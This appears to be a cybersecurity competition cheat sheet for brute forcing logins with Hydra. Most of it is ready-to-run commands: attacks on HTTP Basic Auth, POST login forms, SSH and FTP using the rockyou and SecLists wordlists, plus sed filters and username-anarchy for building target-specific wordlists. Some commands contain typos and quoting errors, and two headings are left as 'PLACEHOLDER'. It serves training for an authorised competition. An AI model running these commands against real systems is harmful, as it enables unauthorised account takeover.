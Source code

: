 <[Back to Main Page](https://github.com/ChristopherFitzsimons/WorldSkills2022Cybersecurity)

# Login Brue Forcing
Creared by Bujitha Ponsuge

## Brute Forcing Login Forms

# Commands
The Following are commands that you can use with Hydra to brute force an Basic HTTP Auth Form

## Brute Forcing Using Default Credentials using Hydra
|	Options		|	Description	|
|-----------|:-----------|
|<font color=red>-C </font>|Allows to use Combined Wordlists|
|<font color=red>http-get</font>|	This is the Request Method						|
|<font color=red>/</font> | The Target Path

Combined Wordlist

```console
hydra -C /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <PORT> http-get /
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

Username Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -p <PASSWORD> -u -f Target IP> -s <PORT> http-get /
```

Password Brute Force

```console
hydra -l <USERNAME> -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt -u -f Target IP> -s <PORT> http-get /
```

# Web Forms/Login Forms Brute Forcing using **Hydra**

Following Commands are usefull to brute force Login Forms (Admin Panels etc..) using the Hydra Module **http[s]-post-form**

> To Determine if the **http[s]-post-form** is the correct module to use. Type something into the login form and check if the URL has any of the inputs that you put in or if the URL change in anyway, If the URL does not change then the Web Application will be using an POST form. If the URL change and or have any of our inputs then its an GET form.
> 

Combined Wordlist

```console
hydra -c /usr/share/SecLists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Username/Password Brute Force

```console
hydra -L /usr/share/SecLists/Usernames/Names/names.txt -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```

Pasword Brute Force

> NOTE: Try default usernames that are often used in admin pannels.
>  admin,administrator,wpadmin, root etc.

```console
hydra -l admin -P /usr/share//SecLists/Passwords/Leaked-Databases/rockyou.txt <Target IP> -s <Target Port> http-post-form "/login.php:user=^USER^&pass="^PASS^:[Success or Failed String]
```
# PLACEHOLDER

# Usefull Commands
The following commands can help if you want to create a personalised wordlist


```console
sed -ri '/^.{,7}$/d' file.txt
```
This command will remove anything that is shorter than eight characters 
```console
sed -ri '/[!-/:-@\[-`\{-~]+/!d' file.txt
```
This command will remove anything that does not contain special characters
```console
sed -ri '/[0-9]+/!d' file.txt
```
This will remove anything that has no numbres

```console
git clone https://github.com/urbanadventurer/username-anarchy.git
cd username-anarchy
./username-anarchy Name-of-target > file.txt
```

This tool can be used to create a custom username wordlist, using an name of an user.

# Service Authentication Brute Forcing (SSH & FTP)


```console
hydra -L username-list -P password-list -u -f ssh://<TargetIP:Port> -t 4 
```

```console
hydra -l username-list -P password-list ftp://<FTPIP>
```

# PLACEHOLDER

